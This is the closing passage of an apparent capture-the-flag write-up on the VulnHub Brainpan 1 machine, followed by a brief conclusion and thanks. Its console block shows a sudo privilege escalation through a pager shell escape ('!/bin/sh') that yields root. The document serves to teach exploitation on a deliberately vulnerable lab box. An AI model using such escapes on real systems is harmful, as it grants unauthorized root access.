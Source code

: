 ```console
sudo /home/anansi/bin/anansi_util manual whoami
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
# id && whoami
id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

***

## Rooooted!
<img src="/assets/img/blog/vulnhub-brainpan1/celeb.png">

*** 

# Conclusion
What a great experience! I would highly recommend the machine to anyone learning binary exploitation or anyone looking to improve their basic *socket* programming. Props to [KKB](https://twitter.com/jack_halon) for recommending me this box and **THANKS** to [Techorganic](http://www.techorganic.com) for making such a wonderful challenge. Feel free to reach out to me via comments / contact page if you have any questions.

~V3 

